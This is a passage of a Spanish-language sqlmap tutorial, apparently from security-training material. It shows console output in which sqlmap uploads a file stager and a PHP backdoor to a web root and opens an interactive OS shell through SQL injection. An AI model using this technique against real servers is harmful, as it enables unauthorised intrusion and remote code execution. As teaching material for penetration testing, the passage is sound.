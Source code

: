 ```
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...

```

Como podemos ver, esta vez SQLMAP nos dejó con éxito en un shell remoto interactivo fácil, dándonos una ejecución fácil de código remoto a través de este SQLI.

Nota: SQLMAP primero nos pidió el tipo de lenguaje utilizado en este servidor remoto, que sabemos que es PHP. Luego nos pidió el directorio raíz web del servidor, y le pedimos a SQLMAP que lo encontrara automáticamente utilizando 'ubicaciones comunes'. Ambas opciones son las opciones predeterminadas, y se habrían elegido automáticamente si agregamos la opción '-Batch' a SQLMAP.

Con esto, hemos cubierto toda la funcionalidad principal de SQLMAP.
